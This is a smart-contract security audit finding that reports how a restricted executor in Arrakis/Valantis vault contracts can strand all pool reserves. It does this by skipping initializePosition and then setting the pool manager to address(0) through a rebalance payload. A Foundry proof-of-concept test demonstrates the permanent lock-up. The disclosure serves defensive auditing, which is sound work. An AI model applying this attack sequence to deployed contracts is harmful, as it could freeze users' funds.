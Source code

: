 Tricky Alabaster Panda

high

# A malicious executor can grief 100% of the pool reserves

## Summary

See detail.

## Vulnerability Detail

When `ArrakisMetaVault.setModule()`  is called, it withdraws reserves from the old module, transfers them to the new module, and allows the executor to pass payloads in external calls to the new module.

The intention is that the executor will call `initializePosition()`  as one of the payloads, to ensure that the transferred tokens are actually deposited via the ALM, otherwise they will remain stuck in the module.

However since the `executor` is a RESTRICTED role, they are not trusted to act correctly. Hence a malicious `executor` can call `setModule()` via the `ArrakisStandardManager.setModule()` function, but without passing the `initializePosition()` payload. 

This leads to the entire pool reserves being sent to the module, but not deposited into the pool. Since `initializePosition()` is an `onlyMetaVault` function, it can never be called since the module has already been set.

### Even worse:
These funds can technically still be recollected by the admins, by calling `ValantisHOTModule.withdrawManagerBalance()`

However, a malicious executor can DoS this function permanently, due to the fact that this function calls `pool.claimPoolManagerFees(0,0)`. 

The malicious executor can execute a rebalance where instead of executing a swap, they call the `onlyPoolManager` function `pool.setPoolManager()`, and set it to `address(0)`.

The only condition for this to not revert is that there is at least 1 wei of manager fees to pay, so 1 swap must be done beforehand.

Then since the `poolManager` is address(0), the call to `claimPoolManagerFees()` via the module will fail since it is no longer the `poolManager`.

As a result, the funds will be PERMANENTLY stuck in the module, not even retrievable by admins.

A PoC for this DoS is provided

## Impact

Entire pool reserves stuck in new module, not deposited into pool.

As a result, share value goes to zero when withdrawing.

A malicious executor can front-run a large withdrawal, and perform this attack, so that they burn their shares but redeem 0 tokens.

100% of the reserves will be permanently stuck in the module.

## Proof of Concept
<details><summary> Fund collection DOS</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;


// Foundry Imports
import {console} from "forge-std/console.sol";
import {Vm} from "forge-std/Vm.sol";
import {Test} from "forge-std/Test.sol";

// Arrakis Imports
import {IArrakisMetaVaultPublic} from
    "../../src/interfaces/IArrakisMetaVaultPublic.sol";
import {IArrakisMetaVault} from
    "../../src/interfaces/IArrakisMetaVault.sol";
import {IArrakisStandardManager} from
    "../../src/interfaces/IArrakisStandardManager.sol";
import {ValantisModule} from "../../src/abstracts/ValantisHOTModule.sol";


// Valantis Imports
import {IValantisHOTModule} from
    "../../src/interfaces/IValantisHOTModule.sol";
import {SovereignPool} from  "../../lib/valantis-hot/lib/valantis-core/src/pools/SovereignPool.sol";
import {HOT} from "@valantis-hot/contracts/HOT.sol";

// General Imports
import {IOwnable} from "../../src/interfaces/IOwnable.sol";


// Base Test
import {ValantisIntegrationPublicTest} from "./ValantisIntegrationPublic.t.sol";


contract PoC_ChangePoolManager_ToZeroAddress is ValantisIntegrationPublicTest {

    address attacker;
    address rec;
    
    function test_changePoolManager_toZeroAddress() public {
        rec = makeAddr("rec");
        attacker = makeAddr("attacker");

        address m = address(IArrakisMetaVault(vault).module());
        assertEq(pool.poolManager(), m);

        deal(address(token0), rec, init0); // 2000e6 (0: USDC)
        deal(address(token1), rec, init1); // 1e18   (1: WETH)

        //@e user mints from meta vault
        vm.startPrank(rec);
        token0.approve(m, init0);
        token1.approve(m, init1);

        IArrakisMetaVaultPublic(vault).mint(1e18, rec);
        vm.stopPrank();


        uint256 FEE_AMOUNT_0 = 1 wei;
        uint256 FEE_AMOUNT_1 = 1 wei;
        //@e Simulating 1 wei of fees in the `SovereignPool`
        vm.store(address(pool), bytes32(uint(5)), bytes32(FEE_AMOUNT_0));
        vm.store(address(pool), bytes32(uint(6)), bytes32(FEE_AMOUNT_1));

        // Sending the fee to the pool
        deal(address(token0), address(pool), token0.balanceOf(address(pool)) + FEE_AMOUNT_0);
        deal(address(token1), address(pool), token1.balanceOf(address(pool)) + FEE_AMOUNT_1);

        bool zeroForOne = false;
        uint256 amountIn = 1; // Using smallest possible values since we are not actually swapping anything
        uint256 expectedMinReturn = 1;

        bytes memory payload = abi.encodeWithSelector(
            SovereignPool.setPoolManager.selector, 
            address(0) // new poolmanager
        );

        bytes memory data = abi.encodeWithSelector(
            IValantisHOTModule.swap.selector,
            zeroForOne,
            expectedMinReturn,
            amountIn,
            address(pool),
            0, //note: this 0,0 lets us skip the checks in `HOT::_checkSpotPriceRange` during depositLiquidity
            0,
            payload
        );

        bytes[] memory datas = new bytes[](1);
        datas[0] = data;
        
        (uint256 reserves0Before, uint256 reserves1Before) = pool.getReserves();
        // Perform the attack
        vm.prank(executor);
        IArrakisStandardManager(manager).rebalance(vault, datas);
        (uint256 reserves0After, uint256 reserves1After) = pool.getReserves();

        assertEq(pool.poolManager(), address(0));


        // Assert that the function cannot be called anymore, so funds are lost
        vm.expectRevert(abi.encodeWithSignature("SovereignPool__onlyPoolManager()"));
        ValantisModule(m).withdrawManagerBalance();

    }
}
```
</details>

## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/abstracts/ArrakisMetaVault.sol#L97-L134

## Tool used

Manual Review

## Recommendation

Force `initializePosition()` to be called on the module during `setModule()`